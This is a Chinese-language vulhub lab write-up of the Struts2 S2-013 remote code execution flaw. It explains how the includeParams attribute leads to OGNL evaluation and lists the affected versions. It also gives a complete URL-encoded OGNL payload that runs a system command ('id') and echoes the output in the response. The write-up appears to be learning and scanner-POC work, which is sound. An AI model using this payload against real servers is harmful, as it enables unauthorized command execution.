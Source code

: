 # Struts2_013_远程代码执行

###### by ADummy

### 0x00利用路线

​			直接url执行payload，由于浏览器url输入框的长度有限，可以使用Hackbar插件，或burpsuite抓包测试。

### 0x01漏洞介绍

​			<s:a>includeParams="all">Click here.</s:a>,这个是struts2标签库的a标签，该标签会在页面上显示当前URL

Struts2标签库中的url标签和a标签的includeParams这个属性，代表显示请求访问参数的含义，一旦它的值被赋予ALL或者GET或者POST,就会显示具体请求参数内容。按照正常的需求,把参数urlEncode一下也就够了， 问题在于，struts把参数做了OGNL解析,导致OGNL表达式的执行。

​			影响版本

  		2.0.0 - 2.3.14.1

### 0x02漏洞复现

#### payload：

link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('**id**').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('**dbapp%3D**'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D



​			登录界面

![S2_013_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_1.png)



​			Burpsuite抓包

![S2_013_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_2.png)

​				

​			Hackbar执行payload

![S2_013_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_3.jpg)

### 0x03总结

​				这是笔者的第二篇文章，由于我目前在华顺信安实习，写一些漏洞的POC和EXP，搜集一些可以利用的漏洞，补充到Goby扫描器中。今天刚好在师傅的带领下写了这个漏洞的POC，由于年代久远，及同样的框架完全可以由很多漏洞解决。但还是很具有学习意义。笔者较菜，暂时不能做代码分析。如果有需要，强烈推荐Devil师傅的文章。共勉！

### 0x04参考资料

https://www.cnblogs.com/devi1/p/13486629.html